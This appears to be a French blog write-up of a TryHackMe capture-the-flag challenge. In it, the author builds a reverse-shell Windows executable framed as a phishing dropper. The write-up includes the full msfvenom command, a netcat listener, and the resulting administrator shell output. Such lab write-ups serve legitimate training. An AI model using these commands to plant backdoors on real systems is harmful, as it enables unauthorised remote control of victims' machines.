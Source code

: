 ```yaml
---
title: TryHackMe - Shadow Phishing
date: 2025-03-26 14:32:49 -0400
description: Dans le cadre du Hackfinity Battle sur TryHackMe, le challenge "Shadow Phishing" nous plonge dans un scénario RedTeam où nous devons simuler une attaque de phishing avancée. Un certain "Cipher" (cipher@darknetmail.corp) envoie un email à "ShadowByte" (shadowbyte@darknetmail.corp), demandant la création d’un build du "SilentEdge Installer", un exécutable malveillant qui doit fonctionner proprement sur Windows 10 x64. L’objectif est de générer cet EXE, de confirmer qu’il établit une connexion reverse shell (simulant une porte dérobée installée via une campagne de phishing), et de le soumettre pour un "dead drop". Voici comment j’ai résolu ce défi, étape par étape.
categories: [TryHackMe]
tags: [THM, CTFs, Hacking]
image:
    path: https://i.ibb.co/N2gTrq0p/a.png
---
```



- **[The Best Academy to Learn Hacking](https://referral.hackthebox.com/mz6xj5g)**.
- **[Beginner Friendly challenges on TryHackMe](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.

<h2 style="color: orange;">Analyse</h2>

L’email de **Cipher** précise que nous devons créer un exécutable nommé `SilentEdge Installer` qui fonctionne sur *Windows 10 x64*. Bien que l’email ne mentionne pas explicitement un antivirus, le contexte du challenge **Shadow Phishing** suggère que l’EXE pourrait être utilisé dans une campagne de phishing pour installer une porte dérobée.

Mon objectif était donc de :

- Générer un payload reverse shell avec `msfvenom`.
- Configurer un listener pour recevoir la connexion.
- Soumettre l’exécutable pour valider le challenge via le **dead drop**.




<h2 style="color: orange;">Resolution</h2>
D'abord pour resoudre ce challenge, je vais commencer par un basic `msfvenom` pour creer un payload en `.exe` et voir s'il vas fonctionner ou si l'antivirus vas le flagger

```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe -o hack.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: hack.exe

$ sudo rlwrap nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.6.8.193] from (UNKNOWN) [10.10.254.169] 49899
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
fisher\administrator

C:\Windows\system32>
```

J’ai généré un payload avec `msfvenom` en utilisant le `windows/x64/shell_reverse_tcp`, qui est compatible avec **Windows 10 x64**. J’ai spécifié mon `LHOST` comme `tun0` (mon IP sur le réseau VPN de TryHackMe, ici `10.6.8.193`) et le `LPORT` comme `1337`. Le fichier généré, `hack.exe`, fait `7168` bytes.

Ensuite, j’ai configuré un listener avec `netcat` en utilisant `sudo rlwrap nc -lnvp 1337` pour recevoir la connexion reverse shell. Après avoir exécuté `hack.exe` sur la machine cible (une machine **Windows 10 x64** fournie par le challenge), j’ai reçu une connexion sur mon listener. La commande `whoami` a confirmé que j’avais un shell avec les privilèges de l’utilisateur `fisher\administrator`, ce qui signifie un accès administrateur.





![Hacked](https://i.ibb.co/0yKwv6m6/hacked.png)


<h2 style="color: orange;">Conclusion</h2>

Le challenge **Shadow Phishing** m’a permis de renforcer mes compétences en création de payloads malveillants et en simulation d’attaques de phishing, des techniques clés pour les opérations RedTeam. J’ai particulièrement apprécié le réalisme du scénario, qui met en scène une communication entre deux acteurs malveillants et une tâche concrète de création d’un dropper. Un grand merci à TryHackMe pour ce défi stimulant !


<h2 style="color: orange;">Ressources supplementaires</h2>
Voici quelques ressources supplémentaires qui pourraient vous être utiles :
- **Love my artciles?** Follow me on [Twitter](https://x.com/@bloman19) and [Github](https://github.com/0xabdoulaye)
- [Join Us on Discord](https://discord.gg/wBT9wr9ruG).
